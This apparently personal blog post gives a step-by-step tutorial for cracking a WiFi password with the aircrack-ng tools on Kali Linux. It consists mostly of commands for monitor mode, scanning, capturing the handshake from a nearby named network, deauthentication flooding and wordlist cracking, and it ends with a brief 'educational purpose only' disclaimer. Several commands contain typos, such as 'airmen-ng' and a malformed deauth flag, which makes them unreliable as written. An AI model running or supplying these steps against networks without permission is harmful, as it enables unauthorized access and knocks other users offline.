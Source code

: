 ```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-16T12:22:23Z
slug:  Wifi hacking 101
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
  - wifi-hacking
ogImage: https://res.cloudinary.com/noezectz/v1663745737/astro-paper/astropaper-x-forestry-og_kqfwp0.png
description:
  step-by-step method to hack WIFI using a network adapter.
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…..

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.

![Network Adapter](my-portfolio/src/content/blog/Images/WH-1.jpg)

After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```code
iwconfig
```

![image1](Images/WH-11.png)

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to `Monitor Mode`, use the following command.

```code
sudo airmen-ng start wlan0 
```

![image1](Images/WH-3.png)

Again, use the command mentioned below to verify the monitor mode.

```code
iwconfig
```

![image1](Images/WH-4.png)

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

```code
sudo airodump-ng wlan0
```

![image1](Images/WH-5.png)

It will display information about nearby **WiFi Networks**. Our intended interface is `Alvish Bhaii`. Then, copy the `BSSID`.

The Following command tells us how many devices are connected tothis Network interface.

```code
sudo airodump-ng wlan0 -d <mac-address>
```

![image1](Images/WH-6.png)

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the **death attack**.

```code
sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0
```

![image1](Images/WH-7.png)

In this attack, we save the handshake in a `.pcap` file. The next step is the death attack: We open another terminal and type the following command.

```code
sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0
```

![image1](Images/WH-8.png)

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

**What is a four-way handshake?**
A four-way handshake is a message exchange between an access point and the client device.

![image1](Images/WH-9.png)

Now, you see that it captures the handshake. Type in the ls command to see the file.

![image1](Images/WH-10.png)

In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

```code
aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt
```

![image1](Images/WH-11.png)

**You see that the key is found and cracked Successfully.**

Thank You for reading this blog. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
